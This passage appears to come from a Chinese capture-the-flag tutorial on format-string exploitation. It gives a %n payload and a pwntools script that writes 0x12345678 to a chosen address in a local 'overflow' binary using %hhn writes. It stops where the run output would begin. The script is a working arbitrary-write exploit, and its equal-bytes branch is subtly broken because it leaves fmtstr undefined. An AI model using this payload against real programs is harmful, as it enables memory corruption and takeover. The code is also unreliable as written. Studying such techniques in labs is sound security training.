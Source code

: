 格式化字符串的偏移为6，所以`payload=p32(0x0804A028)+p32(0x0804A029)+p32(0x0804A02a)+p32(0x0804A02b)+pad1+'%6$n'+pad2+'%7$n'+pad3+'%8$n'+pad4+'%9$n'`

通过脚本计算并构造payload

```python
    from pwn import *

    def fmt(prev, word, index):
        if prev < word:
            result = word - prev
            fmtstr = "%" + str(result) + "c"
        elif prev == word:
            result = 0
        else:
            result = 256 + word - prev
            fmtstr = "%" + str(result) + "c"
        fmtstr += "%" + str(index) + "$hhn"
        return fmtstr

    def fmt_str(offset, size, addr, target):
        payload = ""
        for i in range(4):
            if size == 4:
                payload += p32(addr + i)
            else:
                payload += p64(addr + i)
        prev = len(payload)
        for i in range(4):
            payload += fmt(prev, (target >> i * 8) & 0xff, offset + i)
            prev = (target >> i * 8) & 0xff
        return payload

    def forb():
        sh = process('./overflow')
        payload = fmt_str(6, 4, 0x0804A028, 0x12345678)
        print payload
        sh.sendline(payload)
        print sh.recv()
        sh.interactive()

    forb()
```

其中，offset 表示要覆盖的地址最初的偏移；size 表示机器字长；addr 表示将要覆盖的地址；target 表示我们要覆盖为的目的变量值。

运行结果如下：
